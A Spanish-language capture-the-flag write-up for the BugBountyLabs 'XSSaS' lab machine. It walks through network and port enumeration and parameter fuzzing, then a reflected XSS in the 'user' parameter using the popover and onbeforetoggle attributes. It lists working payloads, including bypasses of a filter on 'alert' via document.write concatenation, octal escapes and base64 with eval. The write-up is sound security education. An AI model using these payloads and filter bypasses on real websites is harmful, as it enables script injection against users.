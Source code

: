 ```yaml
---
title: "XSSaS"
date: 2025-02-12 00:00:00 +0800
categories: writeups bugbountylabs
tags: xss writeup bugbountylabs linux
description: Writeup de la máquina XSSaS de BugBountyLabs.
image: ../assets/images/posts/logos/bugbountylabs.png
---
```


## Resumen de la resolución

**XSSaS** es una máquina **Linux** de dificultad **Insane (Experto)** de la plataforma de **BugBountyLabs**. En ella explotaremos un **XSS** a través parámetro **user** que le pasamos vía **GET**. Dicho parámetro se almacena en el atributo `value` del campo `input`. Finalmente, la inyección **XSS** se acontece gracias al atributo `popovertarget` usado en el `button` y al atributo `onbeforetoggle` y `popover` que inyectamos en el campo `input`.

___
## Enumeración

En primer lugar, realizaremos un barrido en la red para encontrar la **Dirección IP** de la máquina víctima, para ello usaremos el siguiente comando.

```bash
arp-scan -I ens33 --localnet
```

A continuación podemos ver la **Dirección IP**  ya que el **OUI** es **08:00:27**, correspondiente a una máquina virtual de **Virtual Box**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172108.png>)

Después le lanzaremos un **ping** para ver si se encuentra activa dicha máquina, además de ver si acepta la traza **ICM**. Comprobamos que efectivamente nos devuelve el paquete que le enviamos por lo que acepta la traza **ICMP**, gracias al **ttl** podremos saber si se trata de una máquina **Linux (TTL 64 )** y **Windows (TTL 128)**, y vemos que se trata de una máquina **Linux** pues cuenta con **TTL** próximo a 64 (**63**), además gracias al script **whichSystem.py** podremos conocer dicha información.
### Nmap

En segundo lugar, realizaremos un escaneo por **TCP** usando **Nmap** para ver que puertos de la máquina víctima se encuentra abiertos.

```bash
nmap -p- --open --min-rate 5000 -sS -v -Pn -n 172.17.0.2 -oG allPorts
```

Observamos como nos reporta que se encuentra abiertos los puertos **22 y 80**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212171753.png>)

___
### Puerto 80 - HTTP (Apache)

En primer lugar, nos dirigimos al servidor web y tras un buen rato intentando encontrar el vector de entrada veremos que al introducir el parámetro **user** en la **URL**, dicho valor se ve reflejado en el atributo `value` del campo `input`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172458.png>)

Es posible que no encontremos el parámetro **user**, por lo que alternativamente lo podríamos haber descubierto a través de un fuzzing de parámetros usando **Wfuzz** de la siguiente forma.

```bash
wfuzz -c -u "http://192.168.26.79/?FUZZ=test" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hh 548
```

Tal y como se aprecia abajo conseguimos descubrir el parámetro `user` de igual forma.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212175110.png>)

Una vez hemos descubierto el vector de entrada probaremos la siguiente inyección **XSS** usando este payload.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="><h1>test</h1>
```

Tal y como vemos a continuación, los caracteres `<` y `>` están siendo convertidos a `&lt;` y `&lt`, por lo que no podremos inyectar un **XSS**.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172540.png>)

Tras revisar el código fuente nos llamará la atención el atributo `popovertarget` presente en el `button`. Por lo que buscando por internet daremos con el siguiente artículo [XSS popovertarget - Portswigger](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) donde explican como acontecer un **XSS** a partir de este atributo (`popovertarget`).

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172611.png>)

___
## Explotación
### **XSS**

Tras mirar el anterior artículo entenderemos como acontecer un **XSS** abusando del atributo `popovertarget`, en definitiva el payload es el siguiente.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="prompt(1)
```

Tal y como vemos a continuación conseguimos mostrar el cuadro del `prompt()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212172926.png>)

Usando el mismo payload que antes intentaremos mostrar una ventana de `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="alert(1)
```

Observamos que nos salta un mensaje de error ya que la palabra **alert** no está permitida.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212173018.png>)

Una forma de **bypasear** esta comprobación es usando la función `document.write()` tal que así.

> Destacar la importancia de **URL Encodear** los `+` a `%2B`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="document.write('<script>ale'%2B'rt(1)</script>')
```

Tal y como se aprecia en la siguiente captura de pantalla conseguimos mostrar la ventana de `alert()`.

![](<../assets/images/posts/2025-02-12-xssas/Pasted image 20250212174221.png>)

Tras ejecutar el anterior `alert()` no me detuve y seguí investigando sobre diferentes formas de **bypasearlo** y me encontré el siguiente artículo [XSS Bypass alert - Portswigger](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code) donde pude extraer los siguientes payloads alternativos para ejecutar el `alert()`.

```http
http://<Direccion-IP>/?user="id=x popover onbeforetoggle="eval('a\154ert(1)')
```

```http
http://192.168.26.79/?user="id=x popover onbeforetoggle="eval(atob('YWxlcnQoMSk'));
```